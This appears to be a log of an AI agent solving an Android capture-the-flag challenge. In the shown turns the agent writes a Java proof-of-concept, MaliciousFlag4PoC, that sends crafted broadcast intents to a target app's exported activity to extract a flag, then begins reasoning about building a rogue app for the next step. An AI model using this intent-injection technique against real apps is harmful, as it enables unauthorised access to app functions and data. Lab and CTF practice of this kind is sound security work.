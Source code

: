             '        // Step 3: Send GET_FLAG_ACTION\n'
            '        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(getFlagIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");\n'
            '\n'
            '        // Step 4: Send a final intent to trigger success(this) '
            'from GET_FLAG state\n'
            "        // Any intent will work here, let's re-send "
            'GET_FLAG_ACTION or an empty intent\n'
            '        Intent triggerSuccessIntent = new '
            'Intent(GET_FLAG_ACTION); // Or new Intent();\n'
            '        triggerSuccessIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(triggerSuccessIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent final trigger '
            'intent.");\n'
            '\n'
            '        Toast.makeText(this, "Exploit intents sent. Check logs '
            'for flag.", Toast.LENGTH_LONG).show();\n'
            '        finish(); // Close the malicious activity\n'
            '    }\n'
            '}',
 'file_path': 'Android-2/MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 2349 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 7/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Deconstructing the Android Application Challenge**

Okay, so I'm presented with a decompiled Android application and tasked with finding a vulnerability in `Flag4Activity`. My goal is clear: craft a working Proof of Concept to exploit it.  This is a familiar scenario, so I'll approach it systematically.

First things first, I've got to understand the scope of the problem. It's an Android application, confirmed by the file types:  `.java`, `AndroidManifest.xml`, and the standard `resources` directory structure.  Given that, I can assume Java or Kotlin as the primary language. The presence of `MaliciousFlag3PoC.java` and `MaliciousFlag4PoC.java` also points to the likely method of exploitation: creating a separate, malicious Android application to interact with the target using Intents, likely targeting exported components.  That makes sense; PoCs for Android vulnerabilities often involve crafting a rogue application to trigger unexpected behaviors in the target app.  I'll need to create my own `AndroidManifest.xml` and Java code for this purpose.

